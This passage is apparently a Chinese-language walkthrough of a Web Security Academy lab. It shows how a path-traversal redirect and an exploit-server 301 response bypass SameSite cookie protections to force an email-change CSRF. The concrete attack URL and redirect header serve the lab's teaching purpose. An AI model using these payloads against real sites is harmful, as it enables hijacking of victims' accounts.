 ```js
redirectOnConfirmation = (blogPath) => {
  setTimeout(() => {
    const url = new URL(window.location);
    const postId = url.searchParams.get("postId");
    window.location = blogPath + "/" + postId;
  }, 3000);
};
```

然而我發現評論頁也有同樣的 Path Traversal 漏洞

```
https://0a6900bb035b4a6180342bb5000a0042.web-security-academy.net/post/3/../../my-account/change-email?email=evil@example.com&submit=1
```

在 exploit-server 的 response header 設定以下，成功解題

```
HTTP/1.1 301 Moved Permanently
Location: https://0a6900bb035b4a6180342bb5000a0042.web-security-academy.net/post/3/../../my-account/change-email?email=evil@example.com&submit=1
```

這邊就不能用 [Lab: SameSite Lax bypass via method override](#lab-samesite-lax-bypass-via-method-override) 的 Top Level Navigation，因為上面的 URL 並不是 client-side redirect，實際上只會有一個 `https://0a6900bb035b4a6180342bb5000a0042.web-security-academy.net/my-account/change-email?email=evil@example.com&submit=1` 的 HTTP Request，因此我們使用 [HTTP Redirections](../http/http-redirections.md)，使用 Chrome 139 實測後，`Lax` + `Strict` + `None` 的 cookie 都會帶上

但這題的設計初衷其實不是這樣，我只是剛好找到另一個 solution，這題的 bypass 方式很巧妙的利用的 Open Redirect 的漏洞，以前我不懂為啥 Open Redirect 為啥也算是一種資安漏洞，而且在 [Dcard Hackers](https://www.dcard.tw/hacker) 跟 [Hitcon](https://zeroday.hitcon.org/vulnerability/disclosed) 都可以看到，現在多學了一個攻擊手法，才知道原來 Open Redirect 可以這樣用，增加攻擊面

我的解法

```mermaid
sequenceDiagram
  participant victim
  participant exploit-server
  participant vulnerable-site

  victim ->> exploit-server: GET https://exploit-server HTTP/1.1
  exploit-server ->> victim: HTTP/1.1 301 Moved Permanently<br/>Location: https://vulnerable-site
  victim ->> vulnerable-site: GET https://vulnerable-site HTTP/1.1<br/>Cookie: session=123
```

題目想要的解法

```mermaid
sequenceDiagram
  participant victim
  participant exploit-server
  participant vulnerable-site

  victim ->> exploit-server: GET https://exploit-server HTTP/1.1
  exploit-server ->> victim: HTTP/1.1 200 OK<br/>Content-Type: text/html<br/><br/><script><br/>location = "https://vulnerable-site/post/comment/confirmation?postId=1/../../my-account/change-email"<br/><script>
  Note Over victim: client-side redirect
  victim ->> vulnerable-site: GET https://vulnerable-site/post/comment/confirmation?postId=1/../../my-account/change-email HTTP/1.1
  Note Over victim: client-side redirect
  victim ->> vulnerable-site: GET https://vulnerable-site/my-account/change-email HTTP/1.1<br/>Cookie: session=123
```

